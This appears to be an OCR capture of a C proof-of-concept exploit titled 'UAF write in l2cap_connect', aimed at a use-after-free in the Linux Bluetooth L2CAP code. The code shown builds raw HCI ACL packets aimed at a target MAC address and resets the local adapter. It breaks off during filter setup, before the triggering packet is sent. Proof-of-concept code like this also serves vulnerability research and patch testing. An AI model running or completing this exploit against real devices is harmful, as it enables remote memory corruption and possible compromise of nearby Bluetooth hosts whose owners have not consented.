 **UAF write in l2cap_connect**

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

#define L2CAP_CID_SIGNALING     0x0001
#define L2CAP_CONN_REQ          0x02
#define L2CAP_CID_SMP           0x0006
#define L2CAP_CID_SMP_BREDR     0x0007

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
```